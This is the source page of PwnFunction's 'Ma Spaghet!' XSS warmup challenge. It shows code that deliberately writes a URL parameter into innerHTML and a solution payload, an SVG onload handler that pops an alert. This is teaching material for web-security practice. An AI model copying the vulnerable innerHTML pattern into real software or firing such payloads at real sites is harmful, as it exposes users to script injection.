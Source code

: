 ```yaml
---
title: "XSS Game - Ma Spaghet! | PwnFunction"
header: "Ma Spaghet!"
challengeUrl: "https://sandbox.pwnfunction.com/warmups/ma-spaghet.html"
date: 2020-01-19T18:02:05+05:30
draft: false
type: warmup
difficulty: Easy
---
```


{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
{{</ rules >}}

{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;h2 id=&#x22;spaghet&#x22;&#x3E;&#x3C;/h2&#x3E;
&#x3C;script&#x3E;
    spaghet.innerHTML = (new URL(location).searchParams.get(&#x27;somebody&#x27;) || &#x22;Somebody&#x22;) + &#x22; Toucha Ma Spaghet!&#x22;
&#x3C;/script&#x3E;</code>{{< /code >}}

{{< solution >}}
<p>The solution is straight forward, the GET parameter <code>somebody</code> is assigned to
    <code>spaghet.innerHTML</code> in an unsafe way, so something as simple as the following would
    work.
</p>

<pre class="solution-code-block"><code class="language-markup">&lt;svg onload=alert(1337)&gt;</code></pre>
{{< /solution >}}